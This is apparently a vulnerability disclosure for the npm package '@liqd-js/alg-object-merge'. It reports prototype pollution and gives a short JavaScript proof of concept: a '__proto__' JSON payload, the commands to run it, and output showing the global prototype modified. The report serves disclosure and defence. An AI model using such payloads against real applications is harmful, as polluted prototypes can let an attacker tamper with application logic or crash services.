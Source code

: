 # Description

`@liqd-js/alg-object-merge` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var algObjectMerge = require("@liqd-js/alg-object-merge")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
algObjectMerge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @liqd-js/alg-object-merge # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
